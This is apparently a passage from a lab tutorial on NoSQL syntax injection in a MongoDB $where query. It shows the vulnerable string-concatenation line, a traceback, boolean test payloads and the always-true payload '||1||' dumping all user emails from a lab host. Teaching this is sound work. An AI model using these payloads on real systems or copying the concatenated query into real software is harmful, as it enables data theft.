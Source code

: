 ```shell
    retryable=isinstance(operation, message._Query),
  File "/usr/local/lib/python3.6/dist-packages/pymongo/mongo_client.py", line 1371, in _retryable_read
    return func(session, server, sock_info, read_pref)
  File "/usr/local/lib/python3.6/dist-packages/pymongo/mongo_client.py", line 1264, in _cmd
    sock_info, operation, read_preference, self._event_listeners, unpack_res
  File "/usr/local/lib/python3.6/dist-packages/pymongo/server.py", line 134, in run_operation
    _check_command_response(first, sock_info.max_wire_version)
  File "/usr/local/lib/python3.6/dist-packages/pymongo/helpers.py", line 180, in _check_command_response
    raise OperationFailure(errmsg, code, response, max_wire_version)
pymongo.errors.OperationFailure: Failed to call method, full error: {'ok': 0.0, 'errmsg': 'Failed to call method', 'code': 1, 'codeName': 'InternalError'}
Connection to 10.201.64.79 closed.
```

The following line in the error message shows us that there is Syntax Injection:

`for x in mycol.find({"$where": "this.username == '" + username + "'"}):`

We can see that the username variable is directly concatenated to the query string and that a JavaScript function is being executed in the find command, allowing us to inject into the syntax. In this case, we have verbose error messages to give us an indication that injection is possible. However, even without verbose error messages, we could test for Syntax Injection by providing both a false and true condition and seeing that the output differs, as shown in the example below:

**Terminal**

```shell
ssh syntax@10.201.64.79
syntax@10.201.64.79's password: 
Please provide the username to receive their email:admin' && 0 && 'x
Connection to 10.201.64.79 closed.

ssh syntax@10.201.64.79
syntax@10.201.64.79's password: 
Please provide the username to receive their email:admin' && 1 && 'x
admin@nosql.int
Connection to 10.201.64.79 closed.
```

Exploiting Syntax Injection

Now that we have confirmed Syntax Injection, we can leverage this injection point to dump all email addresses. To do this, we want to ensure that the testing statement of the condition always evaluates to true. As we are injecting into the JavaScript, we can use the payload of  `'||1||'`. Let's use this to disclose sensitive information:

**Terminal**

```shell
ssh syntax@10.201.64.79
syntax@10.201.64.79's password: 
Please provide the username to receive their email:admin'||1||'
admin@nosql.int
pcollins@nosql.int
jsmith@nosql.int
[...]
Connection to 10.201.64.79 closed.
```
